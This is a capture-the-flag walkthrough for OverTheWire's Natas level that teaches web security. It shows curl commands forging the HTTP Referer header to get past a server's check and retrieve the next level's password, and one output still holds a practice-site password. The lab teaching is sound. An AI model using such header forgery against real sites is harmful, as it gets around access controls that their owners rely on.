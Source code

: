 # OverTheWire - Natas - Level 5

[OverTheWire](https://overthewire.org) offers a series of "wargames" that teach
security skills. From their website:

> Natas teaches the basics of serverside web-security.

## Challenge Overview

After discovering the `natas4` password in the previous challenge, it can be
used to log into http://natas4.natas.labs.overthewire.org:

![The main page](images/level_05/00_main_page.png)

## Initial Analysis

The web page instructions are:

> Access disallowed. You are visiting from "" while authorized users should come
> only from "http://natas5.natas.labs.overthewire.org/"

It appears that the web server is checking one of the HTTP headers for a
specific value. This does not really provide any security as the user is able to
change these headers. Try to figure out what header is being used.

## Approach Strategy

1. Use "Developer Tools" to look at the network traffic
1. Add HTTP headers to the requests to satisfy the web server check

## Step-by-Step Solution

Browsers have "Developer Tools" that can be used to troubleshoot problems that
happen on web sites. These tools can also be used to exploit security
vulnerabilities. These tools are also called the "F12 Tools" as the `F12` key is
used to run them:

![Developer Tools](images/level_05/01_developer_tools.png)

Clicking the "Refresh page" link on the web page will re-send the network
requests for the page:

![Network Requests](images/level_05/02_network_requests.png)

Two things happened here.

The first thing is that the description box on the page now has a new message:

> Access disallowed. You are visiting from
> "http://natas4.natas.labs.overthewire.org/index.php" while authorized users
> should come only from "http://natas5.natas.labs.overthewire.org/"

This is _very_ important and needs some explanation.

When a browser makes an HTTP request it sends a collection of headers. Each
header has a name and a value. In this instance, the header of interest is
called `Referer`. This header tells the web server which web page the request is
coming from.

When this challenge page was first loaded, it said _You are visiting from ""_.
That's because there was no referrer page. However, when clicking the "Refresh
page" link, the browser sends the current page URL as the referrer. The solution
to the challenge is probably to fake the `Referer` header to be from the site
"http://natas5.natas.labs.overthewire.org/".

The second thing that happened is that the `Network` tab in the Developer Tools
now lists the HTTP requests that were made. The first (highlighted) request is
for the `index.php` page itself. The other requests are for dependencies of the
web page. One type of dependency is Cascading Style Sheet (`.css`) files
defining page style such as fonts, colours, and layout. Another type of
dependency is JavaScript (`.js`) files that execute code in the browser to make
the web page interactive.

Clicking the highlighted request line for `index.php` displays its details, and
scrolling down into the `Request Headers` section shows the `Referer` header
(highlighted):

![Network Requests](images/level_05/03_index_request.png)

The next step is to alter the header. Right clicking the a request from the list
brings up the context menu and there is a `Edit and Resend` menu item:

![Network Requests](images/level_05/04_context_menu.png)

This brings up an area that has the request and all its headers. The request can
be re-sent many times to see how the server responds:

![Network Requests](images/level_05/05_edit_and_resend.png)

Rats! For some reason Firefox does not allow the `Referer` to be changed. There
are still many ways to make the request, though.

The `curl` command is used to make HTTP requests. Compared to using a browser it
definitely has a learning curve, but it's an important tool to know. Starting
over using `curl` instead of the browser, the first task is to fetch to main
webpage:

```
$ curl http://natas4.natas.labs.overthewire.org/index.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.58 (Ubuntu) Server at natas4.natas.labs.overthewire.org Port 80</address>
</body></html>
```

The response is the HTML for a page that says that credentials need to be
supplied. The `-u` switch for `curl` can do this:

```
$ curl -u natas4:[REMOVED: NATAS4 PASSWORD] \
    http://natas4.natas.labs.overthewire.org/index.php
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "[REMOVED: NATAS4 PASSWORD]" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

Progress! The `natas4` password has of course been removed from the text above.
It still has the message that the visit is coming from `""`. Now to use the `-H`
flag to set the `Referer` header. This will double-check that the web server is
indeed looking for this header:

```
$ curl -u natas4:[REMOVED: NATAS4 PASSWORD] \
    -H 'Referer: foo' \
    http://natas4.natas.labs.overthewire.org/index.php
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "foo" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

And now for the final request:

```
$ curl -u natas4:[REMOVED: NATAS4 PASSWORD] http://natas4.natas.labs.overthewire.org/index.php -H "Referer: http://natas5.natas.labs.overthewire.org/"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "[REMOVED: NATAS4 PASSWORD]" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is [REMOVED: NATAS5 PASSWORD]
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

There it is: `Access granted` and the `natas5` password.

## Key Takeaways

- HTTP requests contain headers that can be manipulated
- Browsers can resend requests but apparently some headers are off limits
- The `curl` command is a valuable tool, particularly if a group of requests
  need to be scripted
- Web servers should always be suspicious about any headers or data being sent
  by the user

## Beyond the Challenge

It's always a good idea to think about other solutions. While there are numerous
other tools that could be used to solve this challenge, `curl` is fairly common
and good to learn.
